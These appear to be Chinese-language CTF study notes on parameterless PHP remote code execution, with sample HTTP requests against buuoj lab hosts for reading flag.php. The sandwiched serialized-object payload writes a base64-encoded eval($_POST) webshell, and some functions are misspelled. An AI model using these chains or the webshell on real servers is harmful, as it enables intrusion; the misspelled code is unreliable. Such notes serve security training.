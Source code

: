 首先，我们的 RCE 是指：`remote command execute`,也就是我们的远程代码执行。而我们的远程代码执行漏洞首先来自于我们的 php 需要通过我们的指令来执行我们的相关的指令。
之后，我们的无参数 RCE ,就是要求我们构造一个式子例如 `a(b(c()))`,来通过我们的这一个来执行我们的远程代码。而为了能够让我们执行我们的对应的代码。
### 获得文件函数：
方法一：利用 `scandir` 方法
```
var_dump(scandir('.')) 
```
第一步：扫描目录获得我们目录下的所有文件：
1. Scanfdir 怎么能获取到我们的'.'作为我们的参数
	1. 我们可以通过 `chr(46)` 来获得我们的 `.`
		1. 我们可以通过 `rand()`, `time()`, `current(localtime(time()))` 来获得我们的 46，其中我们的 `rand()` 是最推荐的，因为我们的这一个的周期是 60. 这里的原始是因为我们的 chr 会自动进行我们的取模操作。
	2. `current(localeconv())` 来获得我们的 `.`
	
	3. `chr(ceil(sinh(cosh(tan(sqrt(floor(phpversion())))))))` (仅限于 php7)
	4. `crypt()` 类似于我们的通过概率的方法来获得我们的 `.`
```
O:8:"passthru":2:{s:1:"S";s:77:"system("echo PD9waHAKCiAgICBAZXZhbCgkX1BPU1RbJ3FxJ10pOwo=|base64 -d >1.php");";s:3:"dir";N;}
```


```
样例：
GET /?exp=print_r(var_dump(scandir(session_id(session_start())))); HTTP/1.1
Host: a94d8986-3dea-440d-b91b-95877ed0fd68.node5.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:PHPSESSID=.
Connection: close

```

打印相关信息：
```
print_r()
```

第二步：从我们的数组中取出 flag. Php

假设我们已经通过我们的 `scandir` 获取到我们的问价目录，得到了一个数组，接下来我们获得 flag. Php 的方法就应该是：
```
next(array_reverse())//是我们的倒数第二个元素
```

```
array_rand(array_flip(sacndir()))//随机获得我们的元素
```

方法二. Session 方法：
我们通过我们构造自己的 session，然后再通过我们对应的显示 session 的函数，来做到我们的 session 显示. 其中我们的 sesstionid 可以通过我们的 hackerbar 来设置
```
print_r(session_id(session_start());//得到任意字符串
```

```
GET /?exp=show_source(session_id(session_start())); HTTP/1.1
Host: bdc3ae98-3f14-4f5e-bdd7-cdbb79686f8d.node5.buuoj.cn:81
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:PHPSESSID=flag.php
Connection: close
```

方法三：getallheaders ()方法（可能会被过滤）：
我们的 getallheaders 会抓取我们在传送的包中的相关信息。我们可以在我们的包的最后一行写一个内容：`yy:flag.php`。

```
end(getallheaders())//得到任意字符串
```

```

```

方法四：get_defined_vars ()**最推荐，但是可能被过滤**
通过这个方法，我们就会获得所有我们已经定义的变量，之后，我们就可以通过我们的 get 或者 post 方法传参来得到：
然后我们只需要用我们的最后一个参数即可

```
获取get最后一个参数
end(pos(get_defined_vars()))
获取post的最后一个参数：
end(next(get_defined_vars()))
```
缺点：

### 读取 flag. Php
1. 通过 show_source, 我们就可以通过我们的相关文件读取，例如 
```
var_dump(file_get_content)
show_source()
highlight_file()
readfile()
```

